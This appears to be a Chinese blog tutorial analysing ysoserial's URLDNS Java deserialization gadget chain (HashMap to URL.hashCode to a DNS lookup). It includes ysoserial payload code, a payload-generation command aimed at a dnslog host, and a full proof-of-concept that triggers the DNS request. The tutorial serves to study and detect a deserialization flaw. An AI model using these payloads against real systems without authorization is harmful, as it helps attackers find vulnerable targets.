URLDNS 就是ysoserial中⼀个利⽤链的名字，但准确来说，这个其实不能称作“利⽤链”。因为其参数不是⼀个可以“利⽤”的命令，⽽仅为⼀个URL，其能触发的结果也不是命令执⾏，⽽是⼀次DNS请求。[ysoserial](https://github.com/frohoff/ysoserial) 打包成jar命令 **mvn clean package -DskipTests**，刚刚入门所以用这条链作为学习反序列化的开始。

## URLDNS 反序列化分析

URLDNS 是ysoserial中利用链的一个名字，通常用于检测是否存在Java反序列化漏洞。该利用链具有如下特点：

- **不限制jdk版本，使用Java内置类，对第三方依赖没有要求**
- **目标无回显，可以通过DNS请求来验证是否存在反序列化漏洞**
- **URLDNS利用链，只能发起DNS请求，并不能进行其他利用**

这条链的入口类是java.util.HashMap ，入口类的条件上篇文章写在了最后，这里在提一嘴：

**实现Serializable接口；**

**重写readObject方法，调用一个常见的函数；**

**接收参数类型宽泛；**

**最好JDK自带；**

### HashMap

首先看一下HashMap，这个类实现了Serializable接口

重写了readObject方法，重写方法因为HashMap<K,V>存储数据采用的哈希表结构，元素的存取顺序不能保证一致。由于要保证键的唯一、不重复，在反序列化过程中就需要对Key进行hash，这样一来就需要重写readObject方法。
putVal()就是哈希表结构存储函数，这个不是关键，关键是它调用了hash函数，根据key产生hash。

跟进hash()函数，可以看到，这里使用传入参数对象key的hashCode方法。



很多类中都具有hashCode方法（用来进行哈希），所以接下来考虑有没有可能存在某个特殊的类M，其hashCode方法中直接或间接可调用执行危险函数。这条URLDNS链中使用的执行类就是URL类。看URL类之前，还需要确定一下HashMap在readObject过程中能够正常执行到putVal()方法这里，以及传入hash方法中的参数对象keys是可控的。

首先可以看到，参数对象Key由s.readObject()获取，s是输入的序列化流，证明key是可控的。只要mappings的长度大于0，也就是序列化流不为空就满足利用条件。
[](https://img2022.cnblogs.com/blog/2670873/202205/2670873-20220514173330508-432040919.png)

### URL

入口类HashMap已经分析完成，具备了利用条件，具体在分析一下URL类的hashCode方法。


可以看到当hashCode属性的值为-1时，跳过if条件，执行handler对象的hashCode方法，并将自身URL类的实例作为参数传入。

handler是URLStreamHandler的实例，跟进handler的hashCode方法（URLStreamHandler.java），接收URL类的实例，调⽤getHostAddress⽅法



继续跟进getHostAddress⽅法，getHostAddress方法中会获取传入的URL对象的IP，也就是会进行DNS请求。

这⾥ InetAddress.getByName(host) 的作⽤是根据主机名，获取其IP地址，在⽹络上其实就是⼀次DNS查询。

整个 URLDNS 的Gadget Chain就清晰了：

```plain
1. HashMap->readObject()
2. HashMap->hash()
3. URL->hashCode()
4. URLStreamHandler->hashCode()
5. URLStreamHandler->getHostAddress()
6. InetAddress->getByName()
```

## URLDNS 序列化过程分析

程序入口在ysoserial.GeneratePayload，打开GeneratePayload.java，找到main方法，代码如下：

```java
public static void main(final String[] args) {
		if (args.length != 2) {
			printUsage();
			System.exit(USAGE_CODE);
		}
    //用打包出来的jar，生成序列化的文件时，ysoserial获取外面传入的参数，并赋值给对应的变量。
		final String payloadType = args[0]; // URLDNS
		final String command = args[1]; //http://64hu68.dnslog.cn
		//接着执行Utils.getPayloadClass("URLDNS");，根据全限定类名ysoserial.payloads.URLDNS，获取对应的Class类对象。
		final Class<? extends ObjectPayload> payloadClass = Utils.getPayloadClass(payloadType);
		if (payloadClass == null) {
			System.err.println("Invalid payload type '" + payloadType + "'");
			printUsage();
			System.exit(USAGE_CODE);
			return; // make null analysis happy
		}
		
		try {
      //通过反射创建Class类对应的对象，URLDNS对象创建完成。
			final ObjectPayload payload = payloadClass.newInstance();
      //然后执行执行URLDNS对象中的getObject方法
			final Object object = payload.getObject(command);
			PrintStream out = System.out;
			Serializer.serialize(object, out);
			ObjectPayload.Utils.releasePayload(payload, object);
		} catch (Throwable e) {
			System.err.println("Error while generating or serializing payload");
			e.printStackTrace();
			System.exit(INTERNAL_ERROR_CODE);
		}
		System.exit(0);
	}
```

URLDNS类getObject方法

```java
public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
  							//创建了URLStreamHandler对象
                URLStreamHandler handler = new SilentURLStreamHandler();
								//创建了HashMap对象
                HashMap ht = new HashMap(); // HashMap that will contain the URL
  							//URL对象 url=http://64hu68.dnslog.cn
                URL u = new URL(null, url, handler); // URL to use as the Key
  							//将URL对象作为HashMap中的key，dnslog地址为值，存入HashMap中。
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
								//通过反射机制 设置URL对象的成员变量hashCode值为-1
                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.
								//将HashMap对象返回
                return ht;
}
```

接着对**HashMap对象**进行序列化操作Serializer.serialize(object, out);并将序列化的结果重定向到dnslog1.ser文件中

## 实验验证

**序列化过程：**用打包出来的jar，生成序列化的文件。

```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS "http://64hu68.dnslog.cn" > dnslog1.ser
```

之后在ysoserial-0.0.6-SNAPSHOT-all.jar同目录下就有生成的dnslog1.ser序列化文件。
**反序列化过程：**写一个测试类反序列化写入上面序列化的文件。

```java
package ysoserial;

import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class Test {

    public static void main(String[] args) throws Exception {
        ObjectInputStream os = new ObjectInputStream(new FileInputStream("target/dnslog1.ser"));
        os.readObject();
        System.out.println("OK");
    }
}
```


查看dns平台，反序列化直接请求到dnslog平台上


跟一下反序列化过程，设置断点，调试。




HashMap获取了key和value，调用了hash方法




跟进去，发现调用了key.hashCode方法



继续跟来到了URL类的hashCode方法因为传的key是URL类，hashCode的值为-1



进入了handler.hashCode方法



进入了hashCode.getHostAddress，使用InetAddress.getByName(host);，发送DNSLOG请求。



## POC构造

根据分析，触发的关键是HashMap的put方法，故下面的代码是必须的

```java
HashMap ht = new HashMap();
ht.put(url,"RRR");
```

因为ht.put需要传入URL的实例，new一个，因为URL是可序列化的，不用反射获取

```java
URL url = new URL("http://64hu68.dnslog.cn");
```

根据上面的分析，必须要将这个URL 实例中的，hashCode的值变为-1，通过反射获取变量更改

```java
Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
f.setAccessible(true);
f.set(url, -1);
```

综上，组合起来完整的poc

```java
package ysoserial;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class Test {
    public static void main(String[] args) throws Exception{
        URL url = new URL("http://64hu68.dnslog.cn");
        HashMap ht = new HashMap();
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, -1); //防止put就先进行解析DNS
        ht.put(url,"RRR");


        //序列化写文件
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(ht);
        //反序列化触发payload
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("out.bin"));
        ois.readObject();

    }

}
```

ysoserial为了防⽌在⽣成Payload的时候也执⾏了URL请求和DNS查询，所以重写了⼀个SilentURLStreamHandler 类，这不是必须的。
